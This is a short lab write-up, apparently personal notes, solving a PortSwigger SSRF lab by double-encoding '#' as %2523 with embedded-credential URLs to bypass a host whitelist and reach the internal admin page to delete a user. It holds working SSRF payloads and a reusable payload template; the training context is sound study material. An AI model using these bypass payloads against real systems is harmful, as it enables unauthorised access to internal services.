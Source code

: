 # 4. Lab: SSRF with whitelist-based input filter
https://portswigger.net/web-security/ssrf/lab-ssrf-with-whitelist-filter

Goal:
access the admin interface at http://localhost/admin and delete carlos

problem: white list of "stock.weliketoshop.net" site:
solution: 
1. bypass whitelist
2. inject payload

bypass: finding a payload that will be parsed diffrently on the waf engine and in the server parser, to our advantage:

**stage 1 planning payload structure:**

http://username@weliketoshop.net // 500 whitelist approved. server supports credentials so waf approve different string in the start
http://username#@weliketoshop.net  // 400 whitelist denied - suggets waf treats part before # as url and after as fragment
http://username%23@weliktoshop.net // 400 urlencode # to %23 - still denied (waf smart to check for urlencoding)
http://username%2523@weliktoshop.net // 500 double encode # to %2523 - whitelist approved (waf not smart to check for double urlencoding) but server does double decode and treats %2523 as # 

**we have a method to sneak our payload through the waf whitelist!**



**stage 2. crafting the payload:** 

conecting to the local host to delete a user:

http://localhost%2523@weliketoshop.net // 200 server response to our payload - application exist and listening
http://localhost%2523@stock.weliketoshop.net/admin // 200 server provides access to priviliged page alowing accsses to limited actions:
http://localhost%2523@stock.weliketoshop.net/admin/delete?username=carlos // 302 successfuly deleted carlos

**lab solved**

# **payload structure:**
**{protocol}{payload}%2523{whitelisted.site}**

{protocol} = **http://**

{payload} =
1. **localhost** - pointing the server to itself
2. **\#** - double encoded into "%2523" to fool waf
3. **@** - if acccepted => indicates URL parser supports embedded credentials (to connect to a username in the system)
4. **stock.weliketoshop.net**  - the site approved by a whitelist
5. **/admin/delete?username=carlos** - our actual command 
